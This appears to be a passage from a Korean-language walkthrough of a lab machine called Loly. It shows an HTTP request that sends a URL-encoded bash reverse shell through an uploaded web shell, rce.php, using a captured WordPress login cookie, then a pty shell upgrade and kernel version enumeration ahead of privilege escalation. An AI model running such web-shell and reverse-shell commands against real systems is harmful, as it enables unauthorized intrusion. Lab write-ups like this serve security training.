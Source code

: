 ```
GET /wordpress/wp-content/banners/rce.php?cmd=bash%20-c%20%27bash%20-i%20>%26%20%2Fdev%2Ftcp%2F192.168.45.231%2F4444%200>%261%27 HTTP/1.1

Host: loly.lc

Cache-Control: max-age=0

Accept-Language: en-US,en;q=0.9

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/136.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Accept-Encoding: gzip, deflate, br

Cookie: wordpress_test_cookie=WP+Cookie+check; wordpress_logged_in_6cbd66145d405532f25f0b0c2e6ebf30=loly%7C1757562381%7CerD1JhVkyCAxaD2DfjvXAN8JonGgYrK9DnVV6EObfQT%7C473b55a268c0d91de1fd1a9337663ba3312eb7ab7bee289c886fe5b015893848; wp-settings-1=libraryContent%3Dbrowse%26mfold%3Do; wp-settings-time-1=1757389591

Connection: keep-alive
```
- 로그인 쿠키 정보가 필요하기 때문에 burp를 통해 reverse shell을 획득합니다.

## Privilige Escalation
```shell
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
- 새로운 shell 세션을 얻어냅니다.

### OS version enumeration
```shell
lsb_release -a

No LSB modules are available.
Distributor ID: Ubuntu
Description:    Ubuntu 16.04.1 LTS
Release:        16.04
Codename:       xenial
```

```shell
uname -a

Linux ubuntu 4.4.0-31-generic #50-Ubuntu SMP Wed Jul 13 00:07:12 UTC 2016 x86_64 x86_64 x86_64 GNU/Linux
```
- 커널 버전이 `4.4.0`임을 확인할 수 있습니다.
